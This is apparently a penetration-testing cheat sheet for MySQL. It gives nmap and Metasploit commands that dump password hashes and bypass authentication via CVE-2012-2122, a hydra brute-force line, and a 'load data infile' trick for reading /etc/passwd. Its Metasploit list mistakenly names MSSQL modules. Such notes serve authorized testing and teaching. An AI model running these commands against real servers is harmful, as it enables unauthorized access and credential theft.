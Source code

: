 ```yaml
---
description: (TCP 3306, 33060, 33061)
---
```


# ⭕ MySQL

## :information\_source: <mark style="color:blue;">Introduction</mark>

#### [MySQL](https://www.mysql.com/services/)

The shell ports for MySQL services are:

1. Client-server ( classic MySQL protocol ) TCP 3306
2. Client-server ( X protocol ) TCP 33060
3. Server cluster configuration check port, TCP 33061

## :ballot\_box\_with\_check: <mark style="color:blue;">Checklist</mark>

* [ ] Try to query the DB if you have creds
* [ ] Login brute force
* [ ] Check for MySQL arbitrary file read
* [ ] Check for CVEs

## <mark style="color:red;">Enumeration</mark>

```
nmap -sV -p 3306,33060,33061 <IP>
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
auxiliary/scanner/mysql/mysql_file_enum
```

## <mark style="color:red;">Query ( with credentials )</mark> <a href="#basics" id="basics"></a>

### <mark style="color:orange;">Manual</mark>

```bash
# Try connection from outside
mysql --host <IP> -u root -proot
        
# Connection from the target machine
mysql -u root -p root database
```

```bash
show databases;
use database_name;
show tables;
describe table_name;
select host, user, password from mysql.user;
```

{% embed url="https://www.mysqltutorial.org/mysql-cheat-sheet.aspx" %}

### <mark style="color:orange;">Automated</mark>

#### nmap :

```bash
# Audits MySQL database server security configuration
mysql-audit

# Attempts to list all databases on a MySQL server. (creds required)
mysql-databases

#Dumps the password hashes from an MySQL server in a format suitable (creds required)
mysql-dump-hashes

# Checks for MySQL servers with an empty password for root or anonymous.
mysql-empty-password

# Performs valid-user enumeration against MySQL server using a bug
mysql-enum

# Connects to a MySQL server and prints information such as the protocol and version numbers, thread ID, status, capabilities, and the password salt.
mysql-info

# Runs a query against a MySQL database and returns the results as a table. (creds required)
mysql-query

# Attempts to list all users on a MySQL server.
mysql-users

# Attempts to show all variables on a MySQL server.
mysql-variables

# Attempts to bypass authentication in MySQL and MariaDB servers by exploiting CVE2012-2122. If its vulnerable, it will also attempt to dump the MySQL usernames and password hashes. 
mysql-vuln-cve2012-2122
```

#### Metasploit :

```
auxiliary/gather/lansweeper_collector                            Lansweeper Credential Collector
auxiliary/scanner/mssql/mssql_hashdump                           MSSQL Password Hashdump
auxiliary/scanner/mssql/mssql_ping                               MSSQL Ping Utility
auxiliary/scanner/mssql/mssql_schemadump                         MSSQL Schema Dump
auxiliary/admin/mssql/mssql_exec                                 Microsoft SQL Server Command Execution
auxiliary/admin/mssql/mssql_enum                                 Microsoft SQL Server Configuration Enumerator
auxiliary/admin/mssql/mssql_escalate_dbowner                     Microsoft SQL Server Escalate Db_Owner
auxiliary/admin/mssql/mssql_escalate_execute_as                  Microsoft SQL Server Escalate EXECUTE AS
auxiliary/admin/mssql/mssql_findandsampledata                    Microsoft SQL Server Find and Sample Data
auxiliary/admin/mssql/mssql_sql                                  Microsoft SQL Server Generic Query
auxiliary/admin/mssql/mssql_sql_file                             Microsoft SQL Server Generic Query from File
auxiliary/admin/mssql/mssql_idf                                  Microsoft SQL Server Interesting Data Finder
auxiliary/admin/mssql/mssql_ntlm_stealer                         Microsoft SQL Server NTLM Stealer
auxiliary/admin/mssql/mssql_escalate_dbowner_sqli                Microsoft SQL Server SQLi Escalate Db_Owner
auxiliary/admin/mssql/mssql_escalate_execute_as_sqli             Microsoft SQL Server SQLi Escalate Execute AS
auxiliary/admin/mssql/mssql_ntlm_stealer_sqli                    Microsoft SQL Server SQLi NTLM Stealer
auxiliary/admin/mssql/mssql_enum_domain_accounts_sqli            Microsoft SQL Server SQLi SUSER_SNAME Windows Domain Account Enumeration
auxiliary/admin/mssql/mssql_enum_sql_logins                      Microsoft SQL Server SUSER_SNAME SQL Logins Enumeration
auxiliary/admin/mssql/mssql_enum_domain_accounts                 Microsoft SQL Server SUSER_SNAME Windows Domain Account Enumeration
auxiliary/analyze/crack_databases                                Password Cracker: Databases
```

## <mark style="color:red;">Login Brute Force</mark>

```
 auxiliary/scanner/mssql/mssql_login 
 nmap --script mysql-brute <IP>
 hydra -L usernames.txt -P pass.txt <IP> mysql
```

## <mark style="color:red;">MySQL Arbitrary File Read</mark>

Load data infile is a very special syntax. Friends who know about injection or often play CTF may be familiar with this syntax. In CTF, we often encounter situations where there is no way to load\_file to read the file. At this time, load data infile is the only possible way to read files. Generally our statement is this:

```
load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
```

The mysql server will read the server’s / etc / passwd and insert the data into the table according to `'\n'`. But now this statement also requires you to have FILE permissions, and non-local loaded statements are also restricted by `secure_file_priv`.

```
mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

If we add a keyword local

```
mysql> load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

Query OK, 11 rows affected, 11 warnings (0.01 sec)
Records: 11  Deleted: 0  Skipped: 0  Warnings: 11
```

The client’s file will be read and send to the server. The execution result of the above statement is as follows.

![](../../.gitbook/assets/0-s6pVc0L8-WEq0HGr.png)

#### the PoC can be found here:

{% embed url="https://github.com/allyshka/Rogue-MySql-Server" %}

an overview of the attack

{% embed url="http://russiansecurity.expert/2016/04/20/mysql-connect-file-read" %}
